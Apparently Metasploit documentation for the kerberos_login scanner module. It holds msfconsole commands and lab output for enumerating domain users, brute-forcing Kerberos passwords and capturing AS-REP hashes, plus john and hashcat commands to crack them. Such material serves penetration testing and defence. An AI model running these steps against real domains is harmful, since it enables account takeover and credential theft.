 ## Kerberos Login/Bruteforce

The `auxiliary/scanner/kerberos/kerberos_login` module can verify Kerberos credentials against a range of machines and
report successful logins. If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access.

Kerberos accounts which do not require pre-authentication will
have the TGT logged for offline cracking, this technique is known as AS-REP Roasting.

This module is able to identify the following information from the KDC: 

- Valid/Invalid accounts
- Locked/Disabled accounts
- Accounts with expired passwords, when the password matches
- AS-REP Roastable accounts

## Target

To use the `kerberos_login` module, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

### Creating a single Kerberos ticket (TGT)

To create a single Kerberos ticket (TGT), set the username and password options:

```msf
msf6 auxiliary(scanner/kerberos/kerberos_login) > run rhost=192.168.123.133 domain=DEMO.local username=basic_user password=password verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User found: "basic_user" with password password
[*] Auxiliary module execution completed
```

### Auth Brute

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts and additionally bruteforcing passwords:

Create a new `./users.txt` file and `./wordlist.txt`, then run the module:

```msf
msf6 auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.133 domain=DEMO.local user_file=./users.txt pass_file=./wordlist.txt verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User: "basic_user" is present
[*] 192.168.123.133 - User: "basic_user" wrong password invalid2
[*] 192.168.123.133 - User: "basic_user" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "basic_user" wrong password test_password
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:959b983f9cffc093002d9cd8a20...etc...
[*] 192.168.123.133 - User: "foo" user not found
[*] 192.168.123.133 - User: "foo_bar" user not found
[+] 192.168.123.133 - User: "Administrator" is present
[*] 192.168.123.133 - User: "Administrator" wrong password invalid2
[*] 192.168.123.133 - User: "Administrator" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "Administrator" wrong password test_password
[*] 192.168.123.133 - User: "Administrator" wrong password password
[+] 192.168.123.133 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DEMO.LOCAL:a714f0553589cbd78...etc...
[+] 192.168.123.133 - User: "admin" is present
[*] 192.168.123.133 - User: "admin" wrong password invalid2
[*] 192.168.123.133 - User: "admin" - Kerberos Error - KDC_ERR_KEY_EXPIRED (23) - Password has expired - change password to reset
[*] 192.168.123.133 - User: "admin" wrong password test_password
[*] 192.168.123.133 - User: "admin" wrong password password
[*] Auxiliary module execution completed
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket-granting-ticket present.
The technique of cracking this ticket offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously cracked creds with:

```
creds -v
```

## Options

The `kerberos_login` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
